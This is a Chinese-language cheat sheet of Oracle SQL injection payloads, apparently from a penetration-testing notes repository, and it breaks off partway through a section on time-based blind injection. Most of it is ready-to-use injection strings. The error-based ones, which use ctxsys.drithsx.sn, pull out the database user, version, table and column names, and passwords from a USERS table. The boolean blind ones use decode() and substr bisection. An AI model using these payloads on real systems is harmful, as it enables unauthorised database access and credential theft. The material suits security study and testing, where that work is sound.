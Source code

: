 ## 报错注入

```
?id=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--

?id=1' and 1=ctxsys.drithsx.sn(1,(select banner from v$version where banner like 'Oracle%))--

?id=1' and 1=ctxsys.drithsx.sn(1,(select table_name from (select rownum as limit,table_name from user_tables) where limit= 3))--

?id=1' and 1=ctxsys.drithsx.sn(1,(select column_name from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=3))--

?id=1' and 1=ctxsys.drithsx.sn(1,(select passwd from (select passwd,rownum as limit from users) where limit=1))--
```



## 盲注

### 布尔盲注

既然是盲注，那么肯定涉及到条件判断语句，Oracle除了使用IF the else end if这种复杂的，还可以使用 `decode() `函数。
语法：`decode(条件,值1,返回值1,值2,返回值2,...值n,返回值n,缺省值);`

该函数的含义如下：

```
IF 条件=值1 THEN　　　　
		RETURN(返回值1)
ELSIF 条件=值2 THEN　　　　
		RETURN(返回值2)　　　　
		......
ELSIF 条件=值n THEN　　　　
	RETURN(返回值n)
ELSE　　　　
	RETURN(缺省值)
END IF
```

```bash
?id=1' and 1=(select decode(user,'SYSTEM',1,0,0) from dual)--

?id=1' and 1=(select decode(substr(user,1,1),'S',1,0,0) from dual)--

?id=1' and ascii(substr(user,1,1))> 64--  #二分法
```



### 时间盲注

可使用`DBMS_PIPE.RECEIVE_MESSAGE('任意值',延迟时间)`函数进行时间盲注，这个函数可以指定延迟的时间
